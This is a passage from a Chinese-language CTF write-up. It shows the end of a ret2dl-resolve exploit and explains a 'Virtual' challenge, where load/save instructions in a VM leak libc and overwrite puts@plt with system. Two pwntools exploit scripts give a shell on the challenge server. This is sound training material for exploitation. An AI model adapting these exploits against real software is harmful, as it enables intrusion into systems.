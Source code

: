 ```python
buf2 += rop.dl_resolve_data(addr_bss + 20, 'system')
buf2 += rop.fill(100, buf2)
r.send(buf2)

buf3 = 'A' * 0x2c + rop.dl_resolve_call(addr_bss + 20, addr_bss)
r.send(buf3)

#gdb.attach(r)

r.interactive()
```

### Virtual

理解程序逻辑.  

![](https://i.loli.net/2019/04/23/5cbde7182263f.png)

首先是`store_instruction`函数将输入通过分隔符分类为各种操作符并保存在堆中,`store_num`同理.  
其中三个堆块一个数据堆,一个操作符堆,一个栈(也是用来存数据的,存储操作符操作的数据).

重点就是`op`函数.

![](https://i.loli.net/2019/04/23/5cbde72e30ae4.png)

这里不断从操作符堆取出操作符(对应的数字),然后跳转到函数执行的地方,这里`IDA`反汇编有问题,没有识别出函数调用,实际上`i`会被赋值为函数调用的返回值.

这些函数操作栈中的数据并将结果放回栈中,所以使用数据前需要先`push`.

关键函数是`load`和`save`,知道偏移就可以任意读写.  
先使用`load`泄露堆上的堆地址,由于没开`pie`,通过`-`和`/`求出`.got[puts]`和此处偏移,再次`load`泄露`libc`,处理与`system`的偏移获得`system`地址.  
不过这里没办法复制保存数据,只能移动和计算,所以之前的偏移没了,通过同样操作调整一下再次获得`.got[puts]`偏移,调用`save`成功劫持`puts@plt`.  
突然发现`username`作用,开始试了`/bin/sh`,`ls`,`cat flag`什么的都是`comment not found`,最后`/bin/bash`成功.

```python
from pwn import *

#context.log_level = 'debug'
#r = process("./pwn")
r = remote("a569f7135ca8ce99c68ccedd6f3a83fd.kr-lab.com", "40003")

r.recvuntil("Your program name:\n")
r.sendline("/bin/bash")

r.recvuntil("Your instruction:\n")
payload = "push push push load push sub div sub load push add"
payload += " push push push load push sub div sub save"
#payload = "push push push load push sub div sub load pop"
r.sendline(payload)

#gdb.attach(r)

r.recvuntil("Your stack data:\n")
#payload = "-1 8 -5 4210720"
payload = "-1 8 -5 4210720 -172800 -1 8 -6 4210720"
#0x404020 = 4210720,offset = -172800,one_gadget = -173178
r.sendline(payload)

#print r.recv()

r.interactive()
```
